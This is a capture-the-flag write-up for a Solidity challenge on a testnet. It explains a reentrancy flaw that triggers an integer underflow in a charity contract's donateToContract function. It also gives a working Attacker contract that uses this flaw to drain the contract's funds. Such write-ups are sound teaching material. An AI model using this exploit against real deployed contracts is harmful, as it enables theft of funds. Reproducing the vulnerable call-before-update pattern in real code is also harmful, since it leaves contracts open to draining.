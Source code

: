 # Writeup - Velgørenhed (Blockchain - Underflow & Reentrency)
## We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
We are first going to take a look at the smart contract to look for any potential vulnurabilites. When looking through the smart contract (either by hand or by using a tool like [slither](https://github.com/crytic/slither)) you may notice the function donateToContract.
```javascript
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

What is interesting about this function is that it does a call before setting the donaterBalance. This allows us to create a fallback that executes code and changes the state of the contract before the last line of code is executed in the function. The idea behind this is to change donatorBalance to a value lower than the variable amount. Doing this will create a underflow. And since donatorBalance is a uint (unsigned integer) it will wrap around giving us an insanely high donatorBalance.

#### Execution
To execute the smart contract functions we are going to use [Ethereum remix](https://remix.ethereum.org/). We are going to create two files. A attack.sol and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrency attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runes right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance that is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```javascript
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _etherBankAddress) {
        charity = Charity(_etherBankAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

#### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

#### Results
When we have withdrawn the funds from the contract we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
